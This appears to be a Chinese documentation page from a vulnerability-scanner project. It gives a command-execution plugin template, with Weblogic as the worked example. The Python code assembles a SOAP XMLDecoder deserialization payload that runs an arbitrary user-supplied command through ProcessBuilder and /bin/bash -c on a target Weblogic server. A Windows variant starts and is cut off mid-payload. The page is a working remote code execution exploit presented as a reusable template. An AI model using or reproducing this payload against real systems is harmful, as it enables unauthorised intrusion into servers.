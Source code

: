 ## 命令执行模板

> 该模板其需要叠加到常规模板中使用

下面已`Weblogic`插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'Ascotbe'
from ClassCongregation import VulnerabilityDetails,UrlProcessing,ErrorLog,WriteFile,ErrorHandling,Proxies,Dnslog,Exploit,ExploitOutput
import urllib3
import requests
import time
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        .......


def medusa(Url:str,RandomAgent:str,proxies:str=None,**kwargs)->None:
    .......
#以上内容和常规模板一样，这边就不做概述

def exploit(Url: str, RandomAgent: str, proxies: str = None, **kwargs) -> None:
    proxies = Proxies().result(proxies)
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port

    command = kwargs.get("Command")

    linux_data = '''<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
    <void index="0">
    <string>/bin/bash</string>
    </void>
    <void index="1">
    <string>-c</string>
    </void>
    <void index="2">
    <string>{}</string>
    </void>
    </array>
    <void method="start"/></void>
    </java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
    </soapenv:Envelope>'''.format(command)
    windows_data = '''<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8.0_131" class="java.beans.XMLDecoder">
              <void class="java.lang.ProcessBuilder">
```
